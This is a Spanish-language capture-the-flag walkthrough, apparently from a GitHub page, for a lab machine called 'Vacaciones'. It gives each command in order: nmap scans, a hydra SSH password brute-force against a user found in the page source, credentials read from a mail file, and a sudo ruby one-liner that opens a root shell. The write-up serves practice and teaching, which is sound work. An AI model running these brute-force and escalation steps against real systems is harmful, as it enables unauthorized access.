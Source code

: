 Maquina: Vacaciones

Autor: Romabri

Dificultad: Muy Facil

![Screenshot 2024-11-08 192314](https://github.com/user-attachments/assets/557d26ce-6f24-43d1-b04f-a67a624d8b3c)

ping 172.17.0.2 -c 1

![Screenshot 2024-11-08 190145](https://github.com/user-attachments/assets/19f5d6e5-e987-4be9-b8bb-7a39fd4d2fed)

sudo nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts

![Screenshot 2024-11-08 190641](https://github.com/user-attachments/assets/391e44bf-ebf5-4b96-850f-37ec520bb040)

sudo nmap -sCV -p22,80 172.17.0.2 -oN targeted

![Screenshot 2024-11-08 190513](https://github.com/user-attachments/assets/2f080d1c-4f14-4eaf-a95c-80116a1518f5)

miramos la web
https://172.17.0.2

![Screenshot 2024-11-08 191601](https://github.com/user-attachments/assets/c758f9f6-f4f3-4ca3-b64e-564f343916a0)

miramos el codigo fuente y obtenemos 2 usuarios que podemos explotar

![Screenshot 2024-11-08 191624](https://github.com/user-attachments/assets/a14a09ef-e3c6-4ca8-b206-3177be5bffee)

sudo hydra -l camilo -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 10
obtenemos password de camilo

![Screenshot 2024-11-08 190858](https://github.com/user-attachments/assets/fb4bd662-89c2-4751-b35a-439cdce62a01)

ssh camilo@172.17.0.2

![Screenshot 2024-11-08 190958](https://github.com/user-attachments/assets/6730071b-f16b-4e3a-afca-2118360a0929)

sudo -l
vemos que camilo no tiene permisos

![Screenshot 2024-11-08 191131](https://github.com/user-attachments/assets/ec62cdd9-11e7-422a-a680-ec3605ca9c83)

buscamos el correo que nos ponia en la web
/var/mail$ cd camilo
ls
cat correo.txt

y descubrimos las credenciales del otro usuario

![Screenshot 2024-11-08 191144](https://github.com/user-attachments/assets/003190ed-4b69-4afb-afb9-14a6d74b2935)

accedemos a juan por ssh
ssh juan@172.17.0.2

![Screenshot 2024-11-08 191218](https://github.com/user-attachments/assets/79bffcdd-c74f-4a83-9a3e-fa67dd5f328f)

sudo -l
descubrimos que podemos ejecutar ruby como usuario root
sudo /usr/bin/ruby -e 'exec "/bin/bash"'
whoami

![Screenshot 2024-11-08 191256](https://github.com/user-attachments/assets/7ad92b01-02fd-40d0-8f7b-1e405099b78f)
